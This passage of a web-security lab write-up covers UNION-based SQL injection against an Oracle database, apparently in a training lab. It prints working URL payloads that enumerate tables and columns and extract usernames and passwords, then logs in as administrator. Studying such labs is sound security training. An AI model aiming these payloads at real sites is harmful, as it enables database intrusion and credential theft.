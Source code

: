 
### Enumerating Tables
List all table names:

```sql
SELECT table_name from all_tables
```

Payload:
```
/filter?category=Pets'+union+all+select+'1',table_name+from+all_tables--
```
![image](https://github.com/user-attachments/assets/929733ea-2df0-4fc6-87e0-c42ee3b99e0b)

**Interesting table found:** `USERS_XWRQEE`





### Enumerating Columns
List columns in the target table:
Payload:
```
/filter?category=Pets'+union+all+select+'1',COLUMN_NAME+from+all_tab_columns+WHERE+table_name='USERS_XWRQEE'--
```


![image](https://github.com/user-attachments/assets/e7396197-50a8-4ccb-b963-1d53ee9005a7)


### Retreive all credential

Final query to extract credentials:


Payload:
```
/filter?category=Pets'+union+all+select+USERNAME_KIWRQE,PASSWORD_OCABHB+from+USERS_XWRQEE--
```
![image](https://github.com/user-attachments/assets/02a924da-6947-4711-a5a7-2a13fa5cfc01)

administrator - `eyjpiterylmsfcqq25ja`
wiener        - `tl4drtumhh8bgq4ndq4f`
carlos        - `z8ir2ghepg2rjjqgq3av`

Now login as administrator

![image](https://github.com/user-attachments/assets/8c13605f-963e-4928-9ce9-54b5e38556f4)

---

### LAB 7 - SQL injection UNION attack, determining the number of columns returned by the query

### Lab Description
